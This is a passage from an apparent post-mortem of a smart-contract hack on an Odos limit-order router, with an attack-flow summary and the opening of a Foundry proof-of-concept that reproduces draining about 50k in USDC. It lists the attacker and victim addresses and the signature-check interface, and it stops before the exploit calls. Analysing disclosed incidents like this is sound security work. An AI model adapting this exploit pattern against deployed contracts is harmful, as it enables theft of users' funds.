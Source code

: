 <br>

### 02.3 Attack Flow Summary

Using the techniques described, the attacker bypassed multiple verification checks, crafted an external call to transfer the contract’s tokens, and successfully drained all tokens from the contract.
![image](https://github.com/user-attachments/assets/bd8a9720-05e3-4608-9736-a00a778a970f)

<br>

## 03. Exploit Reproduction

Below is a Proof of Concept (PoC) script using Foundry to reproduce the vulnerability. This script simulates the process of draining all USDC tokens from the contract:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./../interface.sol";

// @KeyInfo - Total Lost : ~50k
// Attacker : https://basescan.org/address/0x4015d786e33c1842c3e4d27792098e4a3612fc0e
// Attack Contract : https://basescan.org/address/0x22a7da241a39f189a8aec269a6f11a238b6086fc
// Vulnerable Contract : https://basescan.org/address/0xb6333e994fd02a9255e794c177efbdeb1fe779c7
// Attack Tx : https://basescan.org/tx/0xd10faa5b33ddb501b1dc6430896c966048271f2510ff9ed681dd6d510c5df9f6

// @Info
// Vulnerable Contract Code : https://basescan.org/address/0xb6333e994fd02a9255e794c177efbdeb1fe779c7#code

// @Analysis
// Post-mortem : 
// Twitter Guy : https://x.com/Phalcon_xyz/status/1882630151583981787
// Hacking God : 

interface OdosLimitOrderRouter {
    function isValidSigImpl(
        address _signer,
        bytes32 _hash,
        bytes calldata _signature,
        bool allowSideEffects
    ) external returns (bool);
}

contract ContractTest is Test {
    OdosLimitOrderRouter odosLimitOrderRouterInstance =
        OdosLimitOrderRouter(0xB6333E994Fd02a9255E794C177EfBDEB1FE779C7);
    IUSDC USDCInstance = IUSDC(0x833589fCD6eDb6E08f4c7C32D4f71b54bdA02913);

    bytes32 ERC6492_DETECTION_SUFFIX = bytes32(hex"6492649264926492649264926492649264926492649264926492649264926492");

    function setUp() public {
        vm.createSelectFork("base", 25431001 - 1);

        vm.label(address(odosLimitOrderRouterInstance), "OdosLimitOrderRouter");
        vm.label(address(USDCInstance), "USDC");
    }

    function testExploit() public {
        emit log_named_decimal_uint(
```